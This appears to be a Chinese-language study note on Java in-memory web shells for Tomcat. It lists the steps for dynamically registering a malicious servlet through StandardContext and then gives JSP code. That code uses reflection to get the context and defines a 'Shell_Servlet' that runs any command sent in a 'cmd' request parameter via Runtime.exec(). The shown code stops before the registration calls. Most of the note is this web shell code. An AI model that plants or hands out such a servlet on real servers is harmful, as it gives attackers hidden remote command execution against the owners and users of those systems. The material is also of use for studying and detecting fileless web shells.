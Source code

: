 ### 动态注册 servlet
在内存马的实现中，具体创建流程的分析可见博客：[Java安全学习——内存马 - 枫のBlog](https://goodapple.top/archives/1355), 文中归纳了创建一个 servlet 的步骤：
> 1. 获取StandardContext对象
> 2. 编写恶意Servlet
> 3. 通过 StandardContext.createWrapper() 创建 StandardWrapper 对象
>    1. 设置 StandardWrapper 对象的 loadOnStartup 属性值
>    2. 设置 StandardWrapper 对象的 ServletName 属性值
>    3. 设置 StandardWrapper 对象的 ServletClass 属性值
> 4. 将 StandardWrapper 对象添加进S tandardContext 对象的 children 属性中
> 5. 通过 StandardContext.addServletMappingDecoded() 添加对应的路径映射

### JSP servlet 内存马
```java
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.catalina.Wrapper" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
 
<%
    Field reqF = request.getClass().getDeclaredField("request");
    reqF.setAccessible(true);
    Request req = (Request) reqF.get(request);
    StandardContext standardContext = (StandardContext) req.getContext();
%>
 
<%!
 
    public class Shell_Servlet implements Servlet {
        @Override
        public void init(ServletConfig config) throws ServletException {
        }
        @Override
        public ServletConfig getServletConfig() {
            return null;
        }
        @Override
        public void service(ServletRequest req, ServletResponse res) throws ServletException, IOException {
            String cmd = req.getParameter("cmd");
            if (cmd !=null){
                try{
                    Runtime.getRuntime().exec(cmd);
                }catch (IOException e){
                    e.printStackTrace();
                }catch (NullPointerException n){
                    n.printStackTrace();
                }
            }
        }
        @Override
        public String getServletInfo() {
            return null;
        }
        @Override
        public void destroy() {
        }
    }
 
%>
 
```